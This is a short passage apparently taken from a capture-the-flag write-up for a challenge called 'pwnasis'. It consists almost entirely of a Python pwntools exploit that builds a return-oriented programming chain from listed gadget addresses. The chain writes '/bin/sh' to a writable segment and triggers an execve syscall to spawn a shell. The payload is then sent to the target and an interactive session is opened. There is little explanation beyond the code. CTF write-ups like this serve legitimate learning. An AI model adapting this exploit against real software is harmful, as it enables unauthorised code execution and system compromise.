 ```py  
# 0x00000000004019a3 : pop rsi ; ret  
# 0x00000000004013e9 : syscall  
# 0x0000000000403d23 : pop rdx ; ret  
# 0x0000000000401b0d : pop rdi ; ret

POP_RDI = 0x0000000000401b0d  
POP_RDX = 0x0000000000403d23  
SYSCALL = 0x00000000004013e9  
POP_RAX = 0x0000000000401001  
POP_RSI = 0x00000000004019a3

MOV_RSI_PTR_RAX = 0x0000000000406c32

PT_LOAD_W = 0x00000000040c240

pld = pwn.p64(0) + pwn.p64(POP_RSI) + b"/bin/sh\x00"  
pld += pwn.p64(POP_RAX) + pwn.p64(PT_LOAD_W)  
pld += pwn.p64(MOV_RSI_PTR_RAX)  
pld += pwn.p64(POP_RAX) + pwn.p64(0x3b)  
pld += pwn.p64(POP_RDI) + pwn.p64(PT_LOAD_W)  
pld += pwn.p64(POP_RSI) + pwn.p64(0)  
pld += pwn.p64(POP_RDX) + pwn.p64(0x0)  
pld += pwn.p64(SYSCALL)

io.sendlineafter(b"Data: ", pld)

io.interactive()  
```

Original writeup (https://ret2school.github.io/post/pwnasis/).